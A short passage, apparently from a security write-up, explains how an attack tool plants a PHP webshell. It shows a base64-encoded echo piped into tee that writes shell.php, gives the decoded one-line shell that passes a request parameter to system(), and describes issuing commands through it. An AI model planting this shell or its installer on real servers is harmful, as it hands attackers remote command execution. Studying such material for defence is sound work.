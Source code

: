 This time the command is:

```

echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php

```

The base64 string is pipped into `base64` to decode it and then `tee` will output it to the paste *and* write it to `shell.php`.

The command decodes to a PHP webshell:

```

<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }

```

Now there’s a request to `shell.php` which is successful (running the `hostname` command to set up the prompt), and now it’s left to the user to issue additional commands.